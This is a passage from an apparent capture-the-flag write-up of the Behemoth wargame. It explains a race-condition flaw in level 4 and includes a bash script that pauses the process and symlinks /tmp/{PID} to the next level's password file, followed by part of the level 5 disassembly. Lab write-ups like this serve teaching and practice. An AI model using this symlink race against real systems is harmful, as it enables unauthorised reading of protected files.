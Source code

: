 ```c
    fclose(fp);
}
else
    puts("PID not found!");
```
Running the binary, it simply just prints *"PID not found!"* and then exits. After disassembling the main function we can see that it first builds a file path using a format string, combining the string *"/tmp/"* and the current **Process ID** of the running binary.

It then attempts to open the file using the formatted file path string in read-only mode.\
If it was able to open the file, then it reads a single character from the file pointer and then outputs it, looping through until there is nothing left to print, before closing the file and exiting.\
However, if it could not open the file (if it does not exist), then it will output the message *"PID not found!"*.

### Exploit:
This is a **race condition** vulnerability. If we can create a symlink pointing to the password file (*/etc/behemoth_pass/behemoth5*) at the path **/tmp/{PID}** quick enough, then the binary will be able to open the password file and output the password.

The `kill` command can be used to **STOP** and **CONTINUE** processes, we will build a simple **bash** script using `kill` commands to exploit the binary.

```bash
#!/bin/bash

/behemoth/behemoth4 &   # Run the binary and background the process
PID=$!                  # Get the PID of the created process (the running binary)
kill -STOP $PID         # STOP the running binary process
ln -s /etc/behemoth_pass/behemoth5 /tmp/$PID  # Create a symlink pointing to the password file
kill -CONT $PID         # CONTINUE the running binary process
```

```bash
behemoth4@behemoth:/tmp/.work$ ./solve.sh
Finished sleeping, fgetcing
m[REDACTED]4
```

---
---
## Behemoth5 Solution
**Username:** behemoth5\
**Password:** [REDACTED]

### Disassembly:
```c
FILE* fp = fopen("/etc/behemoth_pass/behemoth6", "r");

if (!fp)
{
    perror("fopen");
    exit(1);
    /* no return */
}

fseek(fp, 0, 2);
int32_t var_3c_2 = ftell(fp) + 1;
rewind(fp);
char* buf = malloc(var_3c_2);
fgets(buf, var_3c_2, fp);
buf[strlen(buf)] = 0;
fclose(fp);
```